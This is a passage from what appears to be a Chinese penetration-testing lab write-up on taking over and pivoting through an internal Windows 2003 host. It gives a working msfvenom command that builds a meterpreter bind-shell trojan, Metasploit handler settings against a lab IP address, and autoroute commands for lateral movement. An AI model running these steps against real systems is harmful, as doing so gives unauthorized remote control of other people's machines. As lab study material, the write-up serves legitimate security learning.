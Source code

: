 ![image-20230518142233580](https://s2.loli.net/2023/05/18/lwYgHSVkFCdENuP.png)

## Windows 2003上线

### 代理测试

这里我在`Windows 2003`上设置了一个`IIS`服务，可以看到代理是成功连接到了，这图都是后补的，由于思考到，真实性所以就在这上面添加了，测试是否真的能够使其它工具连接到，但是我发现好像能连接，但是无法`ping`，而且`nmap`也无法扫描，这......

有大佬了解么？

![image-20230518161518204](https://s2.loli.net/2023/05/18/H2FNUqipCTIxwED.png)

### 生成木马

这里我们生成一个木马，这个木马和`CS`是一样的都是正向连接。

```
msfvenom -p windows/meterpreter/bind_tcp LHOST=0.0.0.0 LPORT=2222 -f exe > 2003.exe
```

### 设置监听

这里我们设置正向监听。

```
use exploit/multi/handler
set payload windows/meterpreter/bind_tcp
set rhost 192.168.20.20    ##目标地址
set lport 2222
run
```

![image-20230518144429360](https://s2.loli.net/2023/05/18/lJzvAqFPfbmSpcM.png)

### 查看后台会话

这里时候可以看到我们有两个会话了。

![image-20230518144502172](https://s2.loli.net/2023/05/18/ikJUn1NFCARaOBg.png)

### 建立路由

这里和上面一样，我们可以先查看一下我们现有的路由，会发现还是之前的，所以我们要再次添加路由。

```
run autoroute -p
run post/multi/manage/autoroute
```

![image-20230518161822235](https://s2.loli.net/2023/05/18/dj93NFUIRLkitcm.png)

### 建立节点
